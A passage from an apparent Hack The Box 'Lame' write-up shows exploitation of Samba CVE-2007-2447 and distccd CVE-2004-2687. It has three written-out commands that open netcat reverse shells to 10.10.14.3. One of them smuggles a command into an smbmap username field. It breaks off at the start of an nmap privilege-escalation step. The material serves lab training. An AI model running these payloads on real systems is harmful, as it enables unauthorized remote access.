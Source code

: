 Execute command with \` in the username to get reverse shell.

```bash
smbmap -u '/=`nc -e /bin/bash 10.10.14.3 443`' -H 10.10.10.3
```

Using script [samba_rce_CVE-2007-2447.py](https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation)

``` bash
python3 samba_rce_CVE-2007-2447.py 10.10.10.3 'nc -nv 10.10.14.3 443 -e /bin/sh'
```

![](images/5.png)

### CVE-2004-2687

Based on nmap results, using exploit [distccd_rce_CVE-2004-2687.py](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) to get reverse shell in the server.

```bash
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.3 443 -e /bin/sh"
```

![](images/4.png)

## Privilege Escalation

### Binaries That AutoElevate - Nmap

Server conatain command `nmap` allow execute as root
